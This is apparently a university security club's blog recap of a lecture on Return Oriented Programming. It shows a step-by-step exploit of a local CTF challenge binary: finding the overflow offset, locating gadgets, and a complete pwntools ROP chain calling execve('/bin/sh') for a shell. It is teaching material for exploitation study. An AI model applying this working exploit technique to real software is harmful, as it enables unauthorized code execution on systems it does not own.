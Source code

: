 ```yaml
---
title: "Introduction to ROP Chain Attacks"
date: 2021-11-11T12:40:28+01:00
draft: false
author: "***REMOVED***"
description: "An introductory session modern binary exploitation techniques"
tags: ["pwn", "rop", "ret2libc"]
categories: ["Academic Year 2021-22"]
---
```


This week was the last of Ben's 4 week binary exploitation introductory series. It introduced the concept of Return Oriented Programming, demonstrated 2 methods of ROP exploitation on dynamic and statically linked binaries, and explained how some protections can be bypassed. The presentation slides can be downloaded [here](./presentation.pdf). We won't go into great detail into the theory of ROP, as it is covered in the presentation, but we will quickly recap on a high level.

Return Oriented Programming is a modern binary exploitation method designed to overcome the NX Stack compiler protection. It involves chaining together short series' of machine code instructions called *gadgets*. Using these gadgets, and a buffer overflow, we can redirect program flow and potentially gain code execution.  

## Demonstration 1: Classic ROP

The first demonstration covers what I call 'classic ROP'. It is the method of using ROP to achieve code execution without the use of external libraries. The first challenge binary is a statically linked.

```bash
> file challenge
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

It's not a very interesting program. It prints text to stdout, takes an input, prints something else, then exits.

```bash
> ./challenge
ROP me!
foobar
Bad luck. Exiting
```

Let's use GDB to find the offset to the return pointer, same as we did in the Stack Smashing exercises.

```py
pwndbg> cyclic 200 -n=8
pwndbg> r
pwndbg> x/xg $rsp
0x7fffffffd878: 0x6161616f61616161
pwndbg> cyclic -l 0x6161616f61616161 -n=8
108
```

We have an offset of 108, remember we can check this by sending a payload of 108 byte of junk data followed by a fake address such as `0xdeadbeef`. If 0xdeadbeef is in the RIP when the process SegFaults then we are correct.

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge")
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

offset = 108

p.sendlineafter(b"ROP me!", flat({offset: pack(0xdeadbeef)}))

p.interactive()
```

Running the program and attaching to GDB in the same way as last week, we see that 0xdeadbeef is in the RIP.

![0xdeadbeef inside the RIP at SegFault](images/ss1.png)

To exploit this program, we need to build an exploit that essentially does `execve("/bin/sh", 0, 0)` like our shellcode would although we need to use gadgets rather than shellcode due to the fact that NX Stack is enabled on the binary. PIE is not enabled meaning we can search for gadgets and hard code their addresses, as their location will not change at runtime.

Remembering x86_64 calling conventions, we need the string `/bin/sh` in RDI, and 0 in RSI and RDX. We also need a gadget for RAX and a syscall.  Let's use Ropper to find the gadgets for this. 

```py
> ropper --file challenge --search "pop rdi"
[...]
0x000000000040106d: pop rdi; ret;
> ropper --file challenge --search "pop rsi"
[...]
0x0000000000401073: pop rsi; mov rdi, rsi; ret;
> ropper --file challenge --search "pop rdx"
[...]
0x0000000000401078: pop rdx; ret;
> ropper --file challenge --search "pop rax"
[...]
0x0000000000401017: pop rax; syscall;
```

There are convenient gadgets for all operations we want to do, so we can build a ROP chain using the ROP module of pwntools. We should use the RSI gadget first as it will clobber any data in RDI.

We also need the string `/bin/sh`. Thankfully it already exists in the binary. If this were not the case our ROP chain would need to write `/bin/sh` into memory before trying to execve.

```py
pwndbg> search /bin/sh
challenge       0x40201c 0x68732f6e69622f /* '/bin/sh' */
```

We can now finish our script.

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge", checksec=False)
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

# 59 execve	const char *filename const char *const *argv const char *const *envp 	
offset = 108

pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rax_syscall = rop.find_gadget(["pop rax", "syscall"])[0]
pop_rsi_mov_rdi_rsi = 0x0000000000401073
binsh = next(elf.search(b"/bin/sh"))
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
pop_rax = 0x000000000040107a

rop.raw(pop_rsi_mov_rdi_rsi)
rop.raw(p64(0))
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(pop_rdx)
rop.raw(p64(0))
rop.raw(pop_rax_syscall)
rop.raw(p64(59))

p.sendlineafter(b"ROP me!", flat({offset: rop.chain()}))

p.interactive()
```

The exploit works. This shows how we can use the native instructions present in a program to create our own malicious exploit code.

![Shell from Classic ROP](images/ss2.png)

